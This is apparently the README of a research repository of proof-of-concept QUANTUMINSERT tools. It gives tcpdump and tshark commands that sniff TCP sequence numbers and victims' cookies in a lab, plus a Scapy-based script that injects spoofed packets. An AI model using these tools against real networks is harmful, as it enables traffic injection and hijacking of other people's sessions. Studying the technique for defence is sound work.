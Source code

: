 QI Tools
=========

Proof of concept tools to perform a `QUANTUMINSERT`. Our Lab setup consisted of the following VMs:

 * qi-shooter (VM that will run shooter.py)
 * qi-router (VM that will run monitor.py)
 * qi-target (VM that will be attacked)
 
Pcaps created with the help of these tools can be found here:

 * [https://github.com/fox-it/quantuminsert/tree/master/pcaps](https://github.com/fox-it/quantuminsert/tree/master/pcaps)

monitor.py
----------

This script is intended to leak the TCP sequence and ACK numbers to the `shooter.py`. It has a dependency on `tcpdump` or `tshark` as it receives the sequence and ack numbers from the output of these programs.
It's possible to implement packet capture in `monitor.py` itself, making it probably even faster to leak the required information.

The information is sent to the shooter using a single UDP packet. However, one could use other ways to do this.

#### Example usage for tcpdump

	stdbuf --output=0 |	tcpdump -nn -i eth0 "host jsonip.com and tcp[tcpflags]=(tcp-syn|tcp-ack)" | python monitor.py -s 10.0.0.2 -p 12345
	
`stdbuf` is needed as `tcpdump` will buffer it's output by default. The bpf filter ensures that we only see the SYN+ACK of `jsonip.com`, which will be printed to stdout and parsed by `monitor.py`. The shooter is then notified at `10.0.0.2` running on port `12345`.

#### Example usage for tshark

By using `tshark` one could specifically target a client, for example by identifying a client by it's unique Cookie headers.

Example command:

	stdbuf --output=0 tshark -ni eth0 -Tfields \
		-e tcp.seq -e tcp.ack \
		-e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport \
		-e tcp.analysis.bytes_in_flight -e http.host -e 'http.cookie' \
		-o tcp.relative_sequence_numbers:0 -R http.request \
		'host jsonip.com and port 80' | python monitor.py -s 10.0.0.2 -p 12345 --tshark
		
This command will output the required fields when someone makes a HTTP request to `jsonip.com`. The outputted cookie and host fields could be used as selectors in the monitor script.

The `-o tcp.relative_sequence_numbers:0` option is needed to output non relative sequence numbers.

shooter.py
----------
This script is responsible for receiving the sequence+ack data from `monitor.py` using UDP. It has a dependency on `Scapy` for crafting and sending the spoofed packet.

Example usage:

	python shooter.py -l 10.0.0.2 -p 12345
	
This will make the shooter script listen on `10.0.0.2` and on port `12345`.

